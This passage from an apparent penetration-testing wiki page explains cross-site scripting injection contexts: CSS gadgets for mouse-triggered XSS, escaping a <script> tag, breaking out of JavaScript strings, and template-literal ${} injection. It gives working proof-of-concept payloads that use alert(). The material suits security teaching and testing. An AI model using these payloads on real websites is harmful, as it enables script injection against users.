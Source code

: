 > .test {display:block; color: blue; width: 100%\}

and

> \#someid {top: 0; font-family: Tahoma;}

Now you can modify our link and bring it to the form

> \<a href="" id=someid class=test onclick=alert() a="">

This trick was taken from [https://medium.com/@skavans\_/improving-the-impact-of-a-mouse-related-xss-with-styling-and-css-gadgets-b1e5dec2f703](https://medium.com/@skavans\_/improving-the-impact-of-a-mouse-related-xss-with-styling-and-css-gadgets-b1e5dec2f703)

## Injecting inside JavaScript code

In these case you **input** is going to be **reflected inside the JS code** of a `.js` file or between `<script>...</script>` tags or between HTML events that can execute JS code or between attributes that accepts the `javascript:` protocol.

### Escaping \<script> tag

If your code is inserted within `<script> [...] var input = 'reflected data' [...] </script>` you could easily **escape closing the `<script>`** tag:

```javascript
</script><img src=1 onerror=alert(document.domain)>
```

Note that in this example we **haven't even closed the single quote**. This is because **HTML parsing is performed first by the browser**, which involves identifying page elements, including blocks of script. The parsing of JavaScript to understand and execute the embedded scripts is only carried out afterward.

### Inside JS code

If `<>` are being sanitised you can still **escape the string** where your input is being **located** and **execute arbitrary JS**. It's important to **fix JS syntax**, because if there are any errors, the JS code won't be executed:

```
'-alert(document.domain)-'
';alert(document.domain)//
\';alert(document.domain)//
```

### Template literals \`\`

In order to construct **strings** apart from single and double quotes JS also accepts **backticks** **` `` `** . This is known as template literals as they allow to **embedded JS expressions** using `${ ... }` syntax.\
Therefore, if you find that your input is being **reflected** inside a JS string that is using backticks, you can abuse the syntax `${ ... }` to execute **arbitrary JS code**:

This can be **abused** using:

```javascript
`${alert(1)}`
`${`${`${`${alert(1)}`}`}`}`
```

